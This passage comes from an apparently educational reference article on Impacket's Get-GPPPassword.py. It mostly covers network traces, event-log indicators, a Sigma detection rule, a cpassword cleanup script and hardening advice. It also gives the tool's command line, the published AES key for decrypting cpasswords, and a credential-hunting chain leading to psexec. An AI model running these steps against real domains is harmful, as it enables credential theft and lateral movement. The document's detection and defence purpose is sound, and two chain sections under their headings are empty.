TCP handshake to DC01:445
    SMB2 NEGOTIATE (dialect selection)
    SMB2 SESSION_SETUP (NTLM or Kerberos auth)
    SMB2 TREE_CONNECT (IPC$ or SYSVOL)
```

Same as any authenticated SMB session. No unusual negotiation.

### Share enumeration

```text
    DCE/RPC via IPC$ and \PIPE\srvsvc
    NetrShareEnum call (opnum 15)
    Response: list of shares on the DC
```

Short exchange. One RPC call, response with share list.

### SYSVOL crawl

For each directory:

```text
    SMB2 TREE_CONNECT to SYSVOL
    SMB2 CREATE on the directory
    SMB2 QUERY_DIRECTORY (recursive style pagination)
    SMB2 CLOSE
```

And for each XML file identified:

```text
    SMB2 CREATE on the file
    SMB2 READ (in chunks for the entire file)
    SMB2 CLOSE
```

A modest Group Policy environment has 10-50 GPOs, each with possibly 5-20 XML files. Expect hundreds of file reads per run. Total wire time 5-30 seconds depending on SYSVOL size.

### Wireshark filtering

```text
smb2 and smb2.cmd == 5
# CREATE commands - shows every file opened
```

Or:

```text
smb2.filename contains "xml"
# Filter to XML file accesses
```

### Volume signature

A Get-GPPPassword.py run produces a distinctive wire pattern: one source opening hundreds of XML files under the Policies\ hierarchy in rapid succession. No writes, no file modifications. Read only access pattern.


## What it looks like in logs

### Domain controller Windows Security log

For each file access:

- **Event 4624** (successful logon): one logon from the Get-GPPPassword source IP at start.
- **Event 4672** (special privileges): typically not triggered for standard domain user authentication.
- **Event 5140** (file share access): if "Audit File Share" is enabled, SYSVOL access is logged.
- **Event 5145** (detailed file share access): if "Audit Detailed File Share" is enabled, EACH XML file access is logged with the filename.

Event 5145 is the high value indicator for defenders: its volume and pattern (many XML files in Policies\ directory) directly reveals the activity.

### Sysmon logs

- **Event 3** (network connection) on the Get-GPPPassword source host: the outbound TCP 445 connection to the DC.

On the DC itself, Sysmon may not add meaningful detail beyond what Security logs already show.

### EDR detection signatures

Modern EDR products may flag:

- **"SYSVOL mass enumeration"** pattern: many file reads from Policies\ in short window from one source.
- **Specific tool signatures**: some EDR vendors identify Get-GPPPassword.py by its network characteristics.
- **Behavioral correlation**: SMB file reads combined with no subsequent file writes and short overall session duration.

### Sigma rule example

```yaml
title: SYSVOL Group Policy Preferences Enumeration
logsource:
  product: windows
  service: security
detection:
  selection_sysvol_read:
    EventID: 5145
    ShareName|endswith: '\SYSVOL'
    RelativeTargetName|contains:
      - '\Groups.xml'
      - '\ScheduledTasks.xml'
      - '\Services.xml'
      - '\DataSources.xml'
      - '\Printers.xml'
      - '\Drives.xml'
  threshold_many_files:
    IpAddress: single
    distinct_files: '> 5'
    timeframe: 60s
  condition: selection_sysvol_read and threshold_many_files
level: high
```

High severity because legitimate GPP enumeration by administrators is rare and the file list is diagnostic.

### Audit baseline considerations

Event 5145 volume is high in large environments. Enabling "Audit Detailed File Share" logs every share access, potentially generating thousands of events per day. Most environments either:

- Enable 5145 for SYSVOL only (via filtering or targeted policy).
- Accept the volume and rely on SIEM correlation.
- Disable 5145 entirely and miss this detection signal.

Tuning is essential; raw enablement isn't practical.


## Detection and defense

### Detection approach

- **SYSVOL file access auditing (Event 5145)**: if enabled, pattern of rapid GPP file reads by unprivileged source is the highest value signal.
- **SIEM correlation rules**: Sigma-style rules combining share access pattern with source volume threshold.
- **Honeytoken GPP files**: deploy decoy Groups.xml files with deliberately planted "admin" cpasswords that never work. Any attempt to use the credential triggers an alert. Some deception products specifically support this.
- **EDR behavioral coverage**: modern EDR may flag the read pattern.
- **Network monitoring**: SYSVOL access from unexpected sources (workstations that don't need it, dev machines) indicates reconnaissance.

### Preventive controls

**The definitive fix**: remove all existing cpasswords from SYSVOL. This is the explicit recommendation from Microsoft in the MS14-025 guidance.

```powershell
# From a DC as Domain Admin:
Get-ChildItem -Path "\\$env:USERDNSDOMAIN\SYSVOL\$env:USERDNSDOMAIN\Policies" -Recurse -Include Groups.xml, ScheduledTasks.xml, Services.xml, DataSources.xml, Printers.xml, Drives.xml |
    Select-String -Pattern "cpassword" -List
# Review output; for each file with cpassword:
#   1. Document the discovered credential
#   2. Rotate the account password
#   3. Edit the XML to remove the cpassword attribute
#   4. Use GPMC to update the policy
```

**Supplementary hardening**:

- **Restrict SYSVOL read permissions**: some organizations remove `Authenticated Users:Read` and replace with more specific groups. Potentially breaks legitimate GP processing; test thoroughly.
- **Use LAPS for local admin password management**: replaces the "set local admin password via GPP" pattern with LAPS (Local Administrator Password Solution). Modern correct answer for local admin account management.
- **Avoid service account passwords in GP configurations entirely**: use Group Managed Service Accounts (gMSA) which store passwords in AD and don't expose them in SYSVOL.
- **Regular SYSVOL audit**: quarterly runs of Get-GPPPassword.py (by defenders) to ensure no new cpasswords have been added.
- **SYSVOL replication monitoring**: any unexpected writes to Policies\ directories should be flagged.

### What Get-GPPPassword.py does NOT enable

- Does NOT bypass authentication. Requires valid domain user.
- Does NOT establish persistence. Read only tool.
- Does NOT exfiltrate data beyond what a legitimate GP client would read.
- Does NOT directly compromise hosts. Provides credentials that may or may not be still valid.
- Does NOT bypass network segmentation. If SYSVOL is unreachable, tool fails.

### What Get-GPPPassword.py CAN enable

- **Credential discovery** without admin rights (T1552.006).
- **Service account takeover** if the discovered password for a service account is still valid.
- **Lateral movement** using discovered credentials (T1021.002, T1078.002).
- **Historical credential recovery** revealing passwords set years or decades ago.
- **Privilege escalation** paths from any domain user to service account or local admin.

The tool's operational impact comes from its capability to privilege ratio: any domain user can potentially extract highly privileged credentials with one command. Few other tools offer this return on investment.


## Related tools and attack chains

Get-GPPPassword.py **continues Recon and Enumeration at 13 of 17 articles (76%)**. Four stubs remain (`getArch.py`, `GetLAPSPassword.py`, `machine_role.py`, plus one more) before the category closes as the 13th and final complete category.

### Related Impacket tools

- [`GetLAPSPassword.py`](GetLAPSPassword.md) - the modern replacement for GPP managed local admin passwords. Where GPP was insecure by design, LAPS is the secure answer. Operators who find GPP cpasswords should follow up with LAPS enumeration for modern environments.
- [`secretsdump.py`](../03_credential_access/secretsdump.md) - the heavyweight credential dumper for post admin access. Get-GPPPassword finds credentials pre admin; secretsdump extracts them post admin. Complementary.
- [`lookupsid.py`](lookupsid.md) and [`samrdump.py`](samrdump.md) - pre auth enumeration. Get-GPPPassword is post auth (requires domain user) but still pre admin.
- [`netview.py`](netview.md) - once GPP credentials are found and validated, netview helps identify which hosts the credentials are currently used on.
- [`psexec.py`](../04_remote_execution/psexec.md), [`wmiexec.py`](../04_remote_execution/wmiexec.md) - natural follow ups once valid credentials are found. GPP recovered credentials often work on many hosts in the domain.

### External alternatives

- **`gpp-decrypt`** (Ruby, Kali Linux built in): the classic Ruby implementation. Takes a cpassword string on the command line and decrypts it. Requires manually mounting SYSVOL first. Still useful for one off decryption when you already have the XML.
- **`Get-GPPPassword.ps1`** (PowerSploit, PowerShell): Windows native equivalent. Run from a domain joined Windows host. Integrates with PowerView toolkit.
- **`darryllane/gpp`** (Python): early Python implementation.
- **CrackMapExec / NetExec `--gpp-password` module**: integrated into the CME/NetExec framework for bulk domain operations.
- **BloodHound `SYSVOL` collection method**: implicitly parses GPP files during collection, though doesn't specifically surface cpasswords in the graph.
- **Custom Impacket scripts**: any operator can write `smb.getFile + base64.b64decode + AES decrypt` manually. Get-GPPPassword.py is the polished ready made version.

### The credential hunting attack chain



The chain's efficiency is what makes Get-GPPPassword.py operationally valuable: from "just a domain user" to "possibly domain admin" in one command, one decryption, and one psexec.

### The SYSVOL audit defensive chain



The defensive workflow is essentially manual MS14-025 cleanup done repeatedly. Organizations that never started this workflow should start now.

### The "ancient technique, ongoing relevance" category

Get-GPPPassword.py illustrates a category of attack techniques that remain operationally useful long after their public disclosure:

- **Kerberoasting** (disclosed 2014): still frequently successful in 2026.
- **AS-REP roasting** (disclosed around 2015): still finds accounts without pre authentication.
- **LDAP anonymous bind enumeration** (disclosed in the 1990s): still enabled in many environments.
- **GPP cpassword recovery** (disclosed 2012, patched 2014): covered here, still yields results in 2026.
- **SMB signing not required** (known for decades): still the basis of NTLM relay attacks.
- **Unconstrained delegation** (known since Kerberos introduction): still misconfigured on many DCs.

The pattern: the technical fix exists, but the operational cleanup is manual and often not performed. Organizations with mature security posture address these; many others do not. Penetration testers and red teams continue finding these issues decade after their initial disclosure.

### Historical context: the year 2012 disclosure cluster

Interesting historical note: the 2011-2013 period saw many of these "AD hygiene" issues documented publicly:
- GPP cpassword (Emilien Girault, 2012).
- Kerberoasting (Tim Medin, 2014).
- Golden Ticket (Benjamin Delpy / mimikatz, 2014).
- AS-REP roasting (Tim Medin, 2014-2015).
- BloodHound graph based AD analysis (2016).

The cluster reflects the security community's systematic reverse engineering of AD in this period. Get-GPPPassword.py represents the toolification of the 2012 disclosure, landing in Impacket in 2022 - ten years after the initial research.


## Further reading

- **Impacket Get-GPPPassword.py source** at `https://github.com/fortra/impacket/blob/master/examples/Get-GPPPassword.py`. Canonical implementation.
- **Impacket PR #1064** at `https://github.com/fortra/impacket/pull/1064`. The merge that brought Get-GPPPassword.py into Impacket upstream.
- **Original standalone repo** at `https://github.com/ShutdownRepo/Get-GPPPassword`. Now discontinued, references the Impacket home.
- **Podalirius blog post "Exploiting Windows Group Policy Preferences"** at `https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/`. The author's own detailed walkthrough of the technique and the tool's implementation.
- **`[MS-GPPREF]` Group Policy Preferences specification** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/`. Section 2.2.1.1.4 contains the published AES key.
- **`[MS-GPOL]` Group Policy Core Protocol specification** at `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpol/`. Context for Group Policy processing and SYSVOL structure.
- **MS14-025 / CVE-2014-1812 advisory** at `https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025` and `https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30`. The official Microsoft response to the technique.
- **Emilien Girault's original 2012 disclosure** (search for `@emiliengirault` GPP research). The foundation of the public awareness.
- **PowerSploit `Get-GPPPassword.ps1`** at `https://github.com/PowerShellMafia/PowerSploit` (archived). The PowerShell equivalent that predated the Python version.
- **Kali `gpp-decrypt`** at `https://www.kali.org/tools/gpp-decrypt/`. Ruby command-line decryption tool.
- **ADSecurity article on GPP** at `https://adsecurity.org/?p=2288`. Sean Metcalf's ADSecurity writeup covering the technique.
- **SpecterOps blog posts on AD attack primitives**: various articles on credential hunting techniques in AD.
- **LAPS documentation** at `https://learn.microsoft.com/en-us/windows-server/identity/laps/`. The modern replacement for GPP managed local admin passwords.
- **Group Managed Service Accounts (gMSA) documentation** at `https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/`. The modern replacement for GPP managed service account passwords.
- **MITRE ATT&CK T1552.006 Unsecured Credentials: Group Policy Preferences** at `https://attack.mitre.org/techniques/T1552/006/`.

If you want to internalize Get-GPPPassword.py, the productive exercise has three parts. First, in a lab Active Directory environment, manually create a Group Policy with GPP credentials using the (pre MS14-025) Group Policy Management Console - this requires Windows Server 2008 R2 or earlier where the GPP credential UI still exists, or alternatively handcraft a `Groups.xml` file with a cpassword. Verify via Event Viewer on a domain member that the policy applies. Second, from a domain member Linux VM authenticated as any domain user, run `python Get-GPPPassword.py 'DOMAIN/user:pass@DC'` and observe the discovery and decryption of your hand placed cpassword. Third, examine the `Groups.xml` directly: open it in a text editor, manually base64 decode the cpassword value, and verify using OpenSSL or CyberChef with the known key (`4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b`) and zero IV that you get the same cleartext. This three step exercise builds intuition about the file format, the protocol access pattern, and the cryptographic "protection." The deeper lesson is that documented keys are not keys, that obscurity is not security, and that fixes without automated cleanup leave long tails of vulnerability that persist for decades. Get-GPPPassword.py in 2026 is finding credentials placed in 2012; similar patterns likely exist in other protocols that haven't yet been publicly analyzed with similar rigor.
